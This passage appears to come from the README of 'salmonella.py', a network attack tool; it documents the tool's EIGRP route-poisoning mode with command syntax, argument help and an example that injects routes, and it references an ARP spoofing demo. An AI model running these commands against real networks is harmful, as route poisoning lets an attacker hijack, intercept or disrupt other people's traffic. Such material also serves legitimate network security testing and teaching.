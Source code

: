 ![](gif/arp-spoof-gif.gif)

### <a name="eigrp-poison-en">EIGRP Poisoning</a>
```bash
sudo python3 salmonella.py eigrp-poison [-h] --net  --pref  [--nh ] [--intf ] [-i] [-e]
```
```bash
  -h, --help      show this help message and exit
  --net           Destination network
  --pref          Prefix (e.g. 24)
  --nh            IP address of next hop (0.0.0.0 for your device or other)
  --intf          Your network interface
  -i, --internal  Use this flag if you want to utilize INTERNAL EIGRP routes (default)
  -e, --external  Use this flag if you want to utilize EXTERNAL EIGRP routes
```
Usage example with multiple routes:
```bash
sudo python3 salmonella.py eigrp-poison --net 10.10.10.0_192.168.1.0 --pref 24_25 --nh 0.0.0.0_0.0.0.0
```
❗ The values for the ```--net```, ```--pref```, and ```--nh``` arguments are separated by an underscore ```_```.  
❗❗ The number of values in the ```--net```, ```--pref```, and ```--nh``` arguments must match.
